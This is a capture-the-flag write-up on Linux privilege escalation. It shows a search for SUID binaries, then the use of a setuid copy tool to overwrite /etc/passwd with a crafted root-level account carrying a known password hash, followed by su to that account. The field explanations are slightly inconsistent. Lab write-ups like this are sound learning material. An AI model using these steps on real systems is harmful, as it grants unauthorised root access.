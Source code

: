 ## linux escalation
from `strings passwd in /usr/bin`
/etc/passwd
/etc/shadow
/usr/lib/debug/.dwz/x86_64-linux-gnu/passwd.debug

`grep -r -i "password" *`
pam.d looks interesting

elf@1db3e7354052:/bin$ find / -perm -4000 2>/dev/null
`/usr/bin/simplecopy` it has rwxs the `s` permission allows running for the root user

// simplecopy maybe allows copying of other files 
`./simplecopy `                   
Usage: ./simplecopy <source> <destination>


```
elf@9f255a4f6bc8:/tmp/myTmp$ echo 'hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:root:/root:/bin/bash' > passwd
elf@9f255a4f6bc8:/tmp/myTmp$ /usr/bin/simplecopy passwd /etc/passwd
elf@9f255a4f6bc8:/tmp/myTmp$ su hello
```

### Explained hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:root:/root:/bin/bash
`hello:x:0:0:root:/root:/bin/bash`
Username (hello): The name of the user.
Password (x): An x indicates that the password is stored in the /etc/shadow file.
UID (0): The User ID number. 0 is the UID for the root user, which gives full administrative privileges.
GID (0): The Group ID number. 0 is the GID for the root group.
GECOS (root): The GECOS field typically contains the full name of the user, but can also include other information like the user’s office location or phone number.
Home Directory (/root): The absolute path to the user's home directory. For the root user, this is typically /root.
Shell (/bin/bash): The absolute path to the user's default shell. /bin/bash is the Bash shell.

### Explanation of /etc/shadow Fields:
`hello:$1$hello$OYK6k6djmHg1dIhMlFMPA/:0:0:99999:7:::`
hello: Username.
$1$hello$OYK6k6djmHg1dIhMlFMPA/: Password hash.
0: Last password change (0 means user must change password at next login).
0: Minimum number of days between password changes.
99999: Maximum number of days the password is valid.
7: Number of days to warn user before password expiration.
Empty: Number of days after password expiration until account is disabled.
Empty: Account expiration date.
Empty: Reserved for future use.


## Finally
su to your new user
Go to the /root and run the file. and answer is `santa`